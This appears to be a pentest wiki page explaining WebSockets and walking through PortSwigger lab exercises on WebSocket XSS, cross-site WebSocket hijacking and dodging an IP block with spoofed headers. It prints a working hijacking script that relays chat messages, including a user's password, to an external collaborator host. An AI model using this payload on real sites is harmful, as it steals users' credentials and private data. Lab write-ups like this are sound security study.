






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# WebSockets


A **WebSocket** is a communication protocol that provides full-duplex communication channels over a single TCP connection. It is designed to be implemented in web browsers and web servers but can be used by any client or server application.


## General Information

### Process

1. **Handshake**: The connection starts with an HTTP handshake, where the client sends an upgrade request to **switch the protocol** from `HTTP` to `WebSocket`.
2. **Data Frames**: After the handshake, **data is exchanged** in frames (text or binary data).
3. **Connection Lifecycle**: The connection remains open, allowing either party to send data until one side closes the connection.

## Examples

### XXS via WebSockets

> _The example below is based on PostSwigger's_ [Manipulating _WebSocket messages to exploit vulnerabilities_](https://portswigger.net/web-security/websockets/lab-manipulating-messages-to-exploit-vulnerabilities) _lab._

If we sent a payload directly from the Live chat functionality, it gets encoded (Figure 1).

```javascript
;
```

<figure><figcaption><p>Figure 1: Inspecting the WebSocket's traffic.</p></figcaption></figure>

We can intercept the traffic, decode the payload manually, and let the traffic be forwarded (Figure 2).

<figure><figcaption><p>Figure 2: Manipulating the payload &#x26; achieving XSS.</p></figcaption></figure>

### WebSocket Hijacking

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

To achieve WebSocket Hijacking we need to perform a CSRF[^1] attack on a WebSocket handshake, which is possible if:

1. The handshake relies on cookies.
2. There are no CSRF tokens.

We notice that we are assigned a `session` cookie with the `SameSite` attribute set to `None`, which is a prerequisite for this attack (Figure 3).

<figure><figcaption><p>Figure 3: Checking the session's cookie flags.</p></figcaption></figure>

After inspecting the WebSocket connection behaviour, we can create a JS[^2] payload and retrieve the chat logs which include `carlos`'s password (Figure 4).


```javascript
<script>
var ws = new WebSocket('wss://0a4700f603803331818f583600220083.web-security-academy.net/chat');
ws.onopen = function() {
  ws.send("READY");
}

ws.onmessage = function(event) {
  fetch('https://6gnqllgs5kwtsbomr9wxdigcx33urmfb.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
}
</script>
```


<figure><figcaption><p>Figure 5: The WebSocket Hijacking process.</p></figcaption></figure>

### Blacklisted IPs

> _The example below is based on PostSwigger's_ [_Cross-site WebSocket hijacking_](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab) _lab._

In an effort to replicate our [XXS via WebSockets](websockets.md#xxs-via-websockets) attack process, we get our IP address blacklisted (Figure 6).

```javascript
;
```

<figure><figcaption><p>Figure 6: Sending an XSS payload gets our IP address blocked.</p></figcaption></figure>

We can try different [IP-tracking HTTP headers](authentication/rate-limiting.md) to bypass this filter and send a slightly obfuscated payload instead (Figure 7).

```javascript

```

<figure><figcaption><p>Figure 7: Bypassing the server's filters.</p></figcaption></figure>

[^1]: Cross-Site Request Forgery

[^2]: JavaScript
